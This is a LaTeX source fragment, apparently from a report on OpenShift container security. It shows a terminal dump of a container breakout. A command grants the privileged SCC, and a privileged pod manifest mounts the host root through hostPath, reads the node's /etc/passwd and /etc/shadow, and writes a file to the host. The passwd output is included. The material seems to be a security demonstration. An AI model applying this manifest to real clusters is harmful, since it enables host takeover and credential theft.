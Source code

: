 (to add again: )
oc adm policy add-scc-to-user privileged -z default
\fi
CONTAINER BREAKOUT OCP TEXT DUMP
\iffalse
\begin{lstlisting}[

[root@openshiftmaster ~]# cat container_breakout.yaml
apiVersion: v1
kind: Pod
metadata:
    name: breakout
spec:
    containers:
    - name: breakout
      securityContext:
        privileged: true
      image: alpine
      command: ["/bin/sh"]
      args: ["-c",
                'echo -e "        /etc/passwd of underlying node";
                cat /mnt/rootnode/etc/passwd;
                echo -e "-----------\n        /etc/shadow of underlying node";
                cat /mnt/rootnode/etc/shadow;
                echo -e "-----------\n        root directory of underlying node";
                ls -la /mnt/rootnode/;
                touch /mnt/rootnode/ALL_YOUR_NODES_ARE_BELONG_TO_US;
                echo -e "-----------\n        root directory of underlying node after manipulation through this container";
                ls -la /mnt/rootnode/;
                while true;
                  do sleep 30;
                done;'
        ]
      volumeMounts:
      - name: root-volume
        mountPath: /mnt/rootnode
    volumes:
    - name: root-volume
      hostPath:
        path: /
[root@openshiftmaster ~]# oc apply -f container_breakout.yaml
pod/breakout created
[root@openshiftmaster ~]# oc logs breakout
        /etc/passwd of underlying node
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
lgr:x:1000:1000:lgr:/home/lgr:/bin/bash
ntp:x:38:38::/etc/ntp:/sbin/nologin
dockerroot:x:998:995:Docker User:/var/lib/docker:/sbin/nologin
openshiftinstall:x:1001:1001::/home/openshiftinstall:/bin/bash
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin

\end{lstlisting}
